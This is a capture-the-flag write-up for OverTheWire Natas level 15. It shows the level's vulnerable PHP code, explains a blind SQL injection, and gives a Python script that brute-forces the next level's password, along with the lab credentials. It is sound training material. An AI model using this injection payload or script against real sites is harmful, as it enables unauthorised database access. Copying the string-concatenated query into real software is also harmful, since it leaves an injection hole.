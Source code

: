 # Level 15

## Challenge Details 

- **CTF:** OverTheWire
- **Category:** Natas

## Provided Materials

- [http://natas15.natas.labs.overthewire.org](http://natas15.natas.labs.overthewire.org)
- username: `natas15`
- password: `TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB`

## Solution

![start](./start.jpg)

Let's analyze the sourcecode:

```php
...
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>
...
```

We know, that we have table `users` with fields `username` and `password` and the query is `SELECT * from users where username="..."`, so as we will not have any output except about the user existance it will be `Blind SQL Injection`. What we can do is to build the more complex query, like: `SELECT * from users where username="natas16" and password like binary "%"#`, let's analyze it. It will select all users with username `natas16`, that have password like `"%"` *(it means any characters)* and the word `binary` means here, that it will not be case-insensitive. So instead of `%` we can input any characters and so check if the user exists. For example if user has password `123` and we send `...like binary "1%"` it will return true, because password starts with `1` and then have any characters. So let's send `natas16" and password like binary "%"#` to check it:

![check](./check.jpg)

So now we need to bruteforce each character one by one. For that we can write simple `python` script:

```py
import requests

# Base URL and endpoint of the target site
url = 'http://natas15.natas.labs.overthewire.org/index.php'

# Characters to test in the password
characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'

# Store the successfully found password
found_password = ''

# Function to make a POST request and check if the character is correct
def check_character(current_password):
    # Payload for POST request, updated with the correct SQL query structure
    payload = f'natas16" and password like binary "{current_password}%" #'

    # Headers including content type and manually added Authorization header
    headers = {
        'Authorization': 'Basic bmF0YXMxNTpUVGthSTdBV0c0aURFUnp0QmNFeUtWN2tSWEgxRVpSQg==',
        'Content-Type': 'application/x-www-form-urlencoded',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.88 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
        'Accept-Encoding': 'gzip, deflate, br',
        'Accept-Language': 'ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7',
        'Connection': 'close',
        'Cache-Control': 'max-age=0',
        'Origin': 'http://natas15.natas.labs.overthewire.org',
        'Referer': 'http://natas15.natas.labs.overthewire.org/',
        'Upgrade-Insecure-Requests': '1'
    }

    # Make the POST request
    response = requests.post(url, headers=headers, data={'username': payload})
    # print(payload)
    # print(response.status_code, response.reason)  # Print status for debugging
    return "This user exists." in response.text

# Brute force the password character by character
for i in range(50):  # assumption max 50 characters
    found_this_iteration = False  # Flag to check if we found at least one character in this iteration
    for char in characters:
        test_password = found_password + char
        if check_character(test_password):
            found_password += char
            print(f'Found so far: {found_password}')
            found_this_iteration = True
            break
    if not found_this_iteration:
        print("No further characters found. Ending search.")
        break

print(f'Complete password: {found_password}')
```

## Password

`natas16`:`TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V`

*Created by [bu19akov](https://github.com/bu19akov)*